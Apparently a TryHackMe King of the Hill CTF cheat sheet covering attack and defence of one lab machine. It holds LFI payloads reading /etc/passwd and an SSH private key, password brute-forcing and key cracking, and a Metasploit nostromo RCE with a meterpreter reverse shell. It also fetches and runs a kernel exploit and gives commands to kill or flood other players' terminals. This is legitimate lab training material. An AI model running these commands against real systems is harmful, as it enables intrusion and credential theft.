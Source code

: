 
# King of The Hill

Attacking
- Ready
    - ssh-keygen -f "/home/$USER/.ssh/known_hosts" -R "target.ip"
    - mkdir ~/THM/<Room>
    - cd ~/THM/<Room>touch
    - ~/THM/<Room>/clue.txt
- Recon
- Port
    - sudo setip <x.x.x.x>
    - portip
        - 22
        - 80
        - 110
        - 143
        - 139/445
        - 1337
        - 3306
        - 5555
        - 8080
        - 9999
        - 24964
- Scan
    - 22/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 80/tcp    open  http       syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
        - /robots.txt
        - /sitemap.xml
        - view-source
        - gobuster
            - /upload
            - Insecure File Upload Perl shell
        - nikto -h target.ip
        - wpscan
        - hydra
        - Burp Suite
    - 1337/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 3306/tcp  open  mysql      syn-ack ttl 61 MySQL 5.7.19-0ubuntu0.16.04.1
        - hydra -l root -P /usr/share/wordlists/rockyou.txt target.ip mysql
    - 5555/tcp  open  http       syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
        - The page variable is the one defining on which page we are /?page=posts.php
            - http://MACHINE_IP:5555/?page=../../../etc/passwd
        - Since this is “Gloria’s blog”, we can expect there is a user named gloria in the machine 
            - http://MACHINE_IP:5555/?page=../../../home/gloria/.ssh/id_rsa
            - save it to id_rsa
            - chmod 400 id_rsa
    - 8080/tcp  open  http       syn-ack ttl 61 nostromo 1.9.6
        - This version is outdated and has a Remote Code Execution vulnerability. 
            - searchsploit (searchsploit nostromo 1.9.6)
    - 9999/tcp  open  abyss?     syn-ack ttl 61
    - 24964/tcp open  tcpwrapped syn-ack ttl 61
- Shell
    - ssh
        - ssh2john id_rsa > john
        - extract passphrase
            - john -w=/usr/share/wordlists/rockyou.txt john
        - ssh -i id_rsa -t gloria@MACHINE_IP -p 1337
    - msfconsole
        - use exploit/multi/http/nostromo_code_exec
        - set rport 8080
        - set rhost target.ip
        - check
        - set payload linux/x86/meterpreter/reverse_tcp
        - set lhost tun0
        - run
    - reverse shell
        - Upload "Perl shell" /upload
        - Stablish by using Python’s Pty module
            - python3 -c 'import pty;pty.spawn("/bin/bash");'
            - export TERM=xterm
- Root   
    - Privilege Escalation
        - looking for root permissions
            - find / -type f \( -perm -4000 -o -perm -2000 \) -print 2>/dev/null
        - linpeas.sh
            - /usr/bin/tmux -S /.dev/session
        - kernel exploit (CVE-2017-16995)
            - wget https://raw.githubusercontent.com/gugronnier/CVE-2017-16995/master/exploit-poc-pentest.c
            - gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
            - Send it to the machine
            - chmod +x ./exploit-poc-pentest
            - ./exploit-poc-pentest
    - Become King
        - whoami
        - echo "USERNAME" > /root/king.txt
            - permission denied
                - chattr -ia /root/king.txt
            - chattr removed
                - https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/
    - Flags
        - /home/gloria/user.txt 	 
        - /home/marty/user.txt 	Reversed
        - /home/alex/user.txt 	Rot13
        - /root/.flag 	 
        - /opt/code/server.py 	 
        - MySQL: db-> blog, table-> users, id-> 140
Defending
- King
    - chattr +ia /root/king.txt
    - Remove chattr
        - which chattr # Get chattr's path, default: /usr/bin/chattr
        - rm usr/bin/chattr # Or another path if different
    - clobber
        - set -o noclobber
        - add this to bashrc of root and source it
- Patching
    - Nostromo RCE Patch, port 8080
        - update it
        - putting Nostromo down and running a Python http.server
            - /var/nostromo/htdocs
            - ps aux | grep nhttpd
            - kill -9 <PID>
            - cd /var/nostromo/htdocs
            - python3 -m http.server -b target.ip 8080
    - LFI Patch, port 5555 
        - removing every ../ from the page variable
            - <?php include($_GET["page"]); ?> To <?php include(str_replace("../","",$_GET["page"])); ?>
    - Insecure File Upload Patch
        - quickest patch we can issue is to remove or comment line. exec("/usr/bin/perl " . $target_file);
    - OS
        - sudo
            - fixing the vulnerability in /etc/sudoers
                - remove everything from /etc/sudoers except root ALL=(ALL=ALL) ALL
        - changing ssh keys, changing passwords, look for the processes running or give cronjobs a look
        - Make copies of SUID binaries, even though they are easy to find, but can sometimes save get you a root shell from www-data.
        - SSH AuthKey
            - put your ssh keys on to the user/root authorized_keys
            - rename the public key to : authorized_keys     
- Backdoors
- Aggressive Defense
    - Get your pts number
        - /dev/pts/x
        - w
        - who
        - tty
        - echo $$
        - ps aux | grep pts
    - Find every other pts
        - ps aux | grep pts
    - Kick other players’ shells
        - kill -9 <PID>
        - pkill -9 -t pts/<OTHER_PTS_ID>
    - Breaking other players’ pts
        - echo "Hello 1337" > /dev/pts/<OTHER_PTS_ID>
        - cat /dev/urandom > /dev/pts/<OTHER_PTS_ID>
        - nyancat > /dev/pts/<OTHER_PTS_ID>
            - git clone https://github.com/klange/nyancat
            - cd nyancat/src
            - make
            - Sending Nyancat to machine
        - tetris
    - Break into the shell of other logged in users
        - script -f /dev/pts/<OTHER_PTS_ID>


https://blog.noxtal.com/writeups/2020/07/11/tryhackme-koth-lion/
https://blog.noxtal.com/cheatsheets/2020/08/08/ultimate-koth-defense-guide/
https://github.com/calebstewart/pwncat
https://gtfobins.github.io/
